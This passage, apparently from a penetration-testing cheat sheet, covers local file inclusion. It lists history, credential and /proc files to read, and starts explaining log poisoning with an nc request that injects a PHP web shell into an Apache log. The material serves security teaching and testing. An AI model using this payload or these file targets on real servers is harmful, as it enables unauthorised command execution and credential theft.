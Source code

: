 #### User specific files

Found in the home-directory

    .bash_history
    .mysql_history
    .my.cnf
    
#### Proc files

"Under Linux, /proc includes a directory for each running process, including kernel processes, in directories named /proc/PID, where PID is the process number. Each directory contains information about one process, including: /proc/PID/cmdline, the command that originally started the process."

[https://en.wikipedia.org/wiki/Procfs](https://en.wikipedia.org/wiki/Procfs)

[https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/](https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/)

    /proc/sched_debug # Can be used to see what processes the machine is running
    /proc/mounts
    /proc/net/arp
    /proc/net/route
    /proc/net/tcp
    /proc/net/udp
    /proc/net/fib_trie
    /proc/version
    /proc/self/environ
    
### Bruteforcing SSH known_hosts

[https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/](https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/)

### LFI to shell

Under the right circumstances you might be able to get a shell from a LFI.

#### Log poisoning

There are some requirements. We need to be able to read log files. In this example we are going to poison the apache log file. You can use either the success.log or the error.log.

So once you have found a LFI vuln you have to inject php-code into the log file and then execute it.

**Insert php-code into the log file**

This can be done with nc or telnet.

    nc 192.168.1.102 80
    GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
    Host: 192.168.1.102
    Connection: close
    
You can also add it to the error-log by making a request to a page that doesn't exists
